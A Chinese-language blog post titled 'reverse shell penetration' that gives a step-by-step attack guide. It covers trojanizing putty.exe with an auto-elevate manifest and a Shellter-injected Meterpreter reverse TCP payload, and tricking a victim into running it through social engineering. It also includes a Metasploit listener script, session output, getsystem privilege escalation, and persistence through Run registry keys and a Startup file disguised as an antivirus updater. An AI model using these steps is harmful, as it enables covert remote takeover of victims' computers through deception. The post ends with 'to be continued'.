 ```yaml
---
title:  "<font color='red'>[原创]</font> 反弹shell渗透"
date:   2017-05-03 00:00:00
categories: [原创,技术宅]
tags: [原创,技术宅]
---
```


**

## 反弹shell渗透
---

1. 下载一个二进制文件，如putty.exe，使用ResHacker加入管理员运行权限：

		<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
		<!-- Copyright (c) Microsoft Corporation -->
		<assembly xmlns="urn:schemas-microsoft-com:asm.v1"  xmlns:asmv3="urn:schemas-microsoft-com:asm.v3" manifestVersion="1.0">
		<assemblyIdentity version="1.0.0.0" processorArchitecture="x86" name="Microsoft.Windows.MF.rrinstaller" type="win32"/>
		<trustInfo xmlns="urn:schemas-microsoft-com:asm.v3">
		        <security>
		            <requestedPrivileges>
		                <requestedExecutionLevel level="requireAdministrator" uiAccess="false"/>
		            </requestedPrivileges>
		        </security>
		    </trustInfo>
		    <asmv3:application>
		       <asmv3:windowsSettings xmlns="http://schemas.microsoft.com/SMI/2005/WindowsSettings">
		            <autoElevate>true</autoElevate>
		       </asmv3:windowsSettings>
		    </asmv3:application>
		</assembly>

2. 使用shellter动态插入反弹shell代码，如为管理员运行权限的exe文件，则shellter也需管理员权限运行：

		Choose Operation Mode - Auto/Manual (A/M/H): A

		Perform Online Version Check? (Y/N/H): N

		PE Target: {exe文件路径}

		************
		* Payloads *
		************

		[1] Meterpreter_Reverse_TCP   [stager]
		[2] Meterpreter_Reverse_HTTP  [stager]
		[3] Meterpreter_Reverse_HTTPS [stager]
		[4] Meterpreter_Bind_TCP      [stager]
		[5] Shell_Reverse_TCP         [stager]
		[6] Shell_Bind_TCP            [stager]
		[7] WinExec

		Use a listed payload or custom? (L/C/H): L

		Select payload by index: 1

		***************************
		* meterpreter_reverse_tcp *
		***************************

		SET LHOST: {IP}

		SET LPORT: {PORT}

3. 通过社会工程学的方法让victim运行该程序（管理员权限）

4. 运行渗透脚本，开启监听：

		echo '
		use exploit/multi/handler
		set payload windows/meterpreter/reverse_tcp
		set LHOST 0.0.0.0
		set LPORT 4444
		set EXITONSESSIONS false
		exploit -j
		' > ./exploit.rc

		sudo msfconsole -r ./exploit.rc

		rm -rf ./exploit.rc

5. 当victim接入后，在msfconsole中：

		msf exploit(handler) > [*] Sending stage (957487 bytes) to {VICTIM_IP}
		[*] Meterpreter session 1 opened ({VICTIM_IP}:4444 -> {VICTIM_IP}:50138) at ...

		msf exploit(handler) > sessions -i 1
		# 查看权限
		meterpreter > run post/windows/gather/win_privs 

		Current User
		============

		 Is Admin  Is System  Is In Local Admin Group  UAC Enabled  Foreground ID  UID
		 --------  ---------  -----------------------  -----------  -------------  ---
		 True      False      True                     True         1              ""

		meterpreter > getsystem 
		...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

		Current User
		============

		 Is Admin  Is System  Is In Local Admin Group  UAC Enabled  Foreground ID  UID
		 --------  ---------  -----------------------  -----------  -------------  ---
		 True      True       True                     False        1              ""

		meterpreter > ls C:\\Users

		# 管理员运行权限的exe文件，注册表添加开机启动
		meterpreter > upload ./Secured.exe C:\\Users\\{USER}\\AppData\\Roaming\\Microsoft\\Windows\\病毒库更新程序.exe
		meterpreter > reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v Secured -d 'C:\Users\{USER}\AppData\Roaming\Microsoft\Windows\病毒库更新程序.exe'
		
		# 管理员运行权限的exe文件，开机启动项添加开机启动
		meterpreter > upload ./Secured.exe "C:\\Users\\{USER}\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\Secured.exe"

		# 非管理员运行权限的exe文件，注册表添加开机启动
		meterpreter > upload ./Protected.exe C:\\Users\\{USER}\\Protected.exe
		meterpreter > reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v Protected -d 'C:\Users\{USER}\Protected.exe'

		# 非管理员运行权限的exe文件，开机启动项添加开机启动
		meterpreter > upload ./Protected.exe "C:\\Users\\{USER}\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\Protected.exe"
		

--- 

**未完待续**
